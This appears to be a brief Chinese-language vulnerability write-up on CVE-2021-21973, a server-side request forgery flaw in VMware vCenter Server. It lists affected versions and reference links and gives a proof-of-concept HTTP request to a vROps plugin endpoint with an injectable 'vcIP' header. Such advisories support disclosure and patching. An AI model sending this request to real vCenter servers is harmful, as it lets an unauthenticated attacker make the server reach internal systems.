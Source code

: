 # 

# VMware vCenter Server 服务器端请求伪造漏洞 CVE-2021-21973

## 漏洞描述

VMware vCenter Server 插件中对用户提供的输入验证不当，未经过身份验证的远程攻击者可以发送特制的 HTTP 请求，欺骗应用程序向任意系统发起请求。

参考链接：

* https://kb.vmware.com/s/article/82374
* https://twitter.com/osama_hroot/status/1365586206982082560

## 漏洞影响

```
vCenter Server: 6.5, 6.5 U1, 6.5 U3, 6.5.0, 6.5.0a, 6.5.0b, 6.5.0c, 6.5.0d, 6.5u2c, 6.7, 6.7 U3, 6.7.0, 6.7.0d, 6.7u3f, 7.0
Cloud Foundation: before 3.10.1.2, 4.2
```

## 漏洞复现

poc：

```
GET /ui/vropspluginui/rest/services/getvcdetails HTTP/1.1
HOST:
vcIP: SSRF
vcUsername:sa
vaPassword:sa
reqResource:sa
...
```

![image-20221207141353136](images/image-20221207141353136.png)
